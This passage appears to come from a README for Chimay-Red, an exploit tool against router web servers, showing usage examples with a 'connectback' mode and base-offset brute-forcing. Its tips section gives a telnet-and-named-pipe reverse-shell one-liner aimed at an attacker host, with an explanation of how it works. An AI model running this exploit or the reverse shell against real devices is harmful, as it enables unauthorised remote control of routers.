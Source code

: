 ```text
        brute: bruteforce uclibc base offset.

        leak:
            leak pointers from shared libraries to give better odds of
            finding base offset of uclibc.

examples:

    ./chimay_red.py connectback --target 192.168.56.124:80 --lhost=192.168.56.1 --vector=mikrodb
    ./chimay_red.py connectback -d --target 192.168.56.124:80 --lhost=192.168.56.1 --vector=build  --binary $PWD/www --gdbport 4444

==================================================
|  _______   _                     ___         __|
| / ___/ /  (_)_ _  ___ ___ ______/ _ \___ ___/ /|
|/ /__/ _ \/ /  ' \/ _ `/ // /___/ , _/ -_) _  / |
|\___/_//_/_/_/_/_/\_,_/\_, /   /_/|_|\__/\_,_/  |
|                      /___/                     |
==================================================
```
<br>

---

### Additional tips & tricks

**Getting a reverse shell without existing telnet access for `devel-login`**

```bash
mknod /tmp/pipe p;telnet <attacker_ip> <attacker_port></tmp/pipe|bash>/tmp/pipe
```

This command creates a `READ|WRITE` fifo-file pipe in memory using `mknod` and redirects the standard-in and out of bash to the pipe and out through `telnet`.

**Sending text to the LCD**

```bash
"echo hello world > /dev/lcd"
```

![lcd](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)

_image courtesy of [BigNerd - Chimay-Red Github](https://raw.githubusercontent.com/BigNerd95/Chimay-Red/master/docs/screen_image.jpg)_

### See it live!

**Chimay-Red in action:**

<script src="https://asciinema.org/a/u4zVwlhLp6cEdc7cNUra10HG2.js" id="asciicast-u4zVwlhLp6cEdc7cNUra10HG2" async></script>

<br>
